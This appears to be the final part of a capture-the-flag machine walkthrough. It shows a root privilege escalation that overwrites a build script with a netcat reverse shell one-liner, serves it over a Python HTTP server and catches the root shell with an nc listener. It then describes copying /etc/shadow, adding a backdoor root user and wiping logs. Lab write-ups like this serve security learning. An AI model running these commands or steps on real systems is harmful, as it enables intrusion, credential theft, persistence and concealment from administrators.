4. Make the contents of `buildscript.sh` to a reverse shell using any text editor you want.


    `buildscript.sh` content:

    ```bash
    #!/bin/sh

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {IP} {PORT} >/tmp/f
    ```

5. Go back 2 directories and open up a http server in port 80 using `python`.

    * `cd ../../`
    * `sudo python3 -m http.server 80`

6. Setup a reverse shell listener using `nc`.

    * `nc -lvnp {PORT}`

7. If you set it up properly, it should look like this.


8. Wait for 1 minute and the `root` shell should pop.


### STATUS: ROOTED

The next two steps are not necessary for completion of the machine but it completes the 5 Phases of Penetration Testing.

## Post Exploitation / Maintaining Access

Copied the /etc/shadow file for user identification and their passwords.

Added another root user for easy access.

## Clearing Tracks

Removed all logs and footprints to to prevent risk of exposure of breach to security administrator.

## Status: Finished

Feel free to reach out and if there is something wrong about the above post. Feedbacks are also appreciated! :D

## Donation Box

### *Not required but appreciated! :D*

[](https://ko-fi.com/hambyhaxx)

[](https://www.buymeacoffee.com/hambyhaxx)

### Socials

* [Twitter](https://twitter.com/hambyhaxx)

* [Medium](https://hambyhaxx.medium.com)

<-- [Go Back](https://hambyhacks.github.io)
